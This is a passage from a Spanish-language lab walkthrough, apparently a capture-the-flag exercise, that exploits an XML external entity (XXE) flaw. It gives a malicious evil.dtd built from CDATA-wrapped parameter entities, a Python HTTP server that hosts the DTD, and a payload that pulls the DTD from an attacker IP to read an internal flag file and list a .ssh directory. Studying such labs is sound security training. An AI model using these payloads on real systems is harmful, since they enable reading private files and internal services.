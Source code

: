 Por lo tanto, la carga útil anterior se asegura de que si la respuesta contiene algunos caracteres restringidos, esos caracteres se incrustarán en la sección CDATA y, por lo tanto, el validador XML no generará errores.

Ahora estamos listos para enviar la carga útil XXE:

Observe que la respuesta contiene una lista de directorios. Debe ser algún tipo de servidor HTTP.

> La respuesta indica la presencia de archivos como flag1 y directorios como .ssh.

Regrese a la terminal que ejecuta el servidor HTTP basado en Python:

* Observe que hubo una solicitud de la máquina de destino para obtener el archivo evil.dtd.
* Guarde el contenido HTML recibido del servidor HTTP interno:

Mandar:

```
cat listing.html
```

Abra el archivo listing.html en el navegador:

URL:

```
file:///root/listing.html
```

Tenga en cuenta que hay 2 entradas: .**ssh/** y **flag1**.

Vamos a buscarlos en los pasos siguientes.

> \[Nota] El otro puerto interno abierto en la máquina no devolverá ninguna información. Se le anima a interactuar con él modificando el evil.dtd para contener la IP y el puerto en el que se ejecuta ese servicio.

Paso 8: Recupere la primera bandera a través de XXE.

Modifique el archivo evil.dtd para obtener el contenido del archivo flag1:

```
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888/flag1">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

Inicie un servidor HTTP basado en Python en el puerto 8080:

Mandar:

```
python3 -m http.server 8080
```

Envíe la misma carga útil XXE que enviamos en el último paso:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```
